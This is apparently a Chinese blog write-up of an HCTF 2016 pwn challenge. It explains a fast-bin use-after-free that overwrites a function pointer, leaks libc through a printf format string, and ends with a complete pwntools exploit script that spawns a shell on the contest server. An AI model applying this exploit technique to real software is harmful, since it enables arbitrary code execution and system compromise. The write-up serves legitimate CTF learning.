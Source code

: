 ```yaml
---
layout:     post
title:      "2016-Hctf题解 -- 就是干"
subtitle:   "fast-bin内存机制的利用探究"
date:       2016-12-01 16:55:25
author:     "Carter"
header-img: "img/post-bg-2015.jpg"
tags:
    - Linux
    - pwn
    - UAF
---
```




### 一. 知识点：
**1. 代码段开了随机化怎么调试：**

需要两个文件，其一是debug，通过peda获取每次程序加载代码段基址，内容如下：

```javascript
python
code_addr = peda.get_vmmap('binary')[0][0]
peda.execute('set $code='+hex(code_addr))
end
source aa
```

另一个是断点文件aa，通过source指令链接到debug文件中，内容如下：

```python
break * $code + 0xe93
break * $code + 0xd65
```

在exp中只需要加入一句话就可以挂载gdb，并在启动gdb后自动加载断点信息

```python
gdb.attach(pidof('pwn1')[-1],open('debug'))
```

### 二. 题目描述：
该题主要有两个功能：

 - 一是开辟内存输入字符串
 - 二是删除字符串并释放该内存块

明显就是考察申请释放堆块的相关姿势。首先来看**输入字符串函数**：

每个字符串都会分配一个长度为32的堆块A「实际分配长度为48，包括16字节堆块头」。接着判断输入字符串长度，如果长度小于15，则直接把字符串存储在该堆块A中；如果大于15，则另外开辟一块内存B存储字符串，堆块A中仅仅存储堆块B的地址。

**长度小于15的字符串堆块：**

布局如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/10.png)
对应内存如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/1.png)

**长度大于15的字符串堆块：**
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/2.png)
内存中还有一个堆块总管理地址，对每个字符串有两个变量来标志它：1.该字符串是否被删除的标志位; 2.为字符串分配的堆块地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/3.png)

再来看看**删除字符串函数**:首先判断字符串对应的堆管理结构的第二个位置是否为0[**漏洞所在：第二个位置是函数地址永远不可能为0,判断无效**]，然后调用堆块中存储的'处理删除字符串函数'。如果我们可以覆盖此函数地址为其他地址，再释放该堆块，那么就可以任意函数执行了
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/4.png)



### 三. 漏洞利用：
**1.**首先输入3个长度小于15的字符串，申请3块内存，此时堆管理结构如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/5.png)
**2.** 接着删除字符串1、2、3，因为堆块A、B、C都是小于128字节，所以分配和释放都用fast-bin方式进行。释放后的堆块在链表中将后进先出，此时该fast-bin链如下：
C --> B --> A 


**3**. 再输入一个长度大于15的字符串：首先会分配一块32字节的堆，此时将分配到空闲块C；接着分配一个字符串长度的堆块，此时应该保证字符串长度在15-32之间，就可以顺利的分配到空闲堆块B，然后字符串的内容由我们输入存放在堆块B中，就可以覆盖原本的'处理删除字符串函数'为我们想调用的函数printf


在这里有一个坑：printf函数的偏移为0x9d0，但是我们只能覆盖整数字节，也就是说得把原本'处理删除字符串函数'的后面4个字母数覆盖为'x9d0'，其中x是一个未知数，有16种可能，在这里只能fuzz撞概率咯~

覆盖前：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/6.png)
覆盖后：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/7.png)
**4.** 接着释放第2块会调用存放于堆块B中的'处理删除字符串函数'，此时已经被我覆盖为printf函数的地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/8.png)
由调试可知，参数正好是输入字符串，所以就可以了任意函数执行并控制参数
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/9.png)
**5.** 顺利的调用了printf('%170$p')，可以泄露存放在栈上的__libc_start_main+240的地址，从而可以计算出system函数的地址

**6.** 接着再执行一遍以上过程，从新触发任意函数执行的漏洞，执行system('/bin/sh')即可获取shell

**7.** 利用代码如下

```python
from pwn import *

context.log_level = 'debug'
global io

def create_list(io,length,strr):
	io.recvuntil('quit')
	io.sendline('create ')
	io.recvuntil('Pls give string size:')
	io.sendline(length)
	io.recvuntil('str:')
	io.sendline(strr)

def delete_list(io,number):
	io.recvuntil('quit')
	io.sendline('delete ')
	io.recvuntil('id:')
	io.sendline(number)
	io.recvuntil('Are you sure?:')
	io.sendline('yes')


def pwn():
	global io

	debug = 0
	if debug:
   	 	io = process('./pwn1')
	else:
		#io = remote('127.0.0.1',2333)
		io = remote('115.28.78.54',80)
		io.recvuntil('please input you token: ')
		io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#------------------------------------------------use fsb to leak __libc_start_main's address
	create_list(io,'10','aaaa')
	create_list(io,'10','bbbb')
	create_list(io,'10','cccc')
	delete_list(io,'0')
	delete_list(io,'1')
	delete_list(io,'2')
	content1 = "%175$p".ljust(24,'a')+'\xd0\xf9\x00'
	create_list(io,'29',content1)
	delete_list(io,'1')                     #-----printf('%113$p')

	data = io.recv(14)
	libc_start_main = int(data,16)-240
	print "libc_start_main_addr="+hex(libc_start_main)
#--------------------------------------------------caculate system_addr	
	libc_start_main_offset = 0x20740
	system_addr = 0x45380
	system_addr = libc_start_main  - libc_start_main_offset + system_addr
	print "system_addr=" + hex(system_addr)

	if debug:
		gdb.attach(pidof('pwn1')[-1],open('debug'))

	create_list(io,'10','zzzz\x00')

	create_list(io,'10','aaaa\x00')
	create_list(io,'10','bbbb\x00')
	create_list(io,'10','cccc\x00')
	delete_list(io,'2')
	delete_list(io,'3')
	delete_list(io,'4')
#----------can't have '\x00' in string.because len(string) must >15.And after '/bin/sh' must have a space.
	content2 = "/bin/sh #".ljust(24,'a')+ p64(system_addr)  
	create_list(io,'32',content2)
	delete_list(io,'3')                     #system('/bin/sh')
	
	io.sendline('uname -a')
	io.interactive()



if __name__ == '__main__':
	while True:
		try:
			pwn()
		except EOFError:
			print 'guess not success!!!'
			io.close()
			time.sleep(5)
```

### 唠叨几句：
这是第一次接触到还带猜的pwn，所以详细的记录了一下解题过程。猜的过程也比较有意思，由于主办方采取了一定的防DOS措施：当检测到访问过于频繁时就会禁止访问该题。加之学校ip出口都是一个，校内还有一些大佬也在fuzz这个题，所以导致fuzz过程异常艰难！

总的来说，这个题还是出得很棒的，给主办方杭州电子科技大的大佬们赞一个~
